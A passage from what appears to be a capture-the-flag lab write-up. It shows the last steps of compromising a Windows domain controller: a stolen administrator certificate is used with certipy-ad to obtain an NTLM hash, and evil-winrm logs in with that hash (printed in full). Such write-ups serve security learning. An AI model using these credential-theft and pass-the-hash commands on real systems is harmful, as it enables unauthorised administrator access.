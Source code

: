 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919124850.png)

Great, we received administrator.pfx 
With administrator certificate we can get NTML hash 

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919125036.png)

We got it, now let's connect via evil-winrm and grab root flag

```
evil-winrm -i 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919125145.png)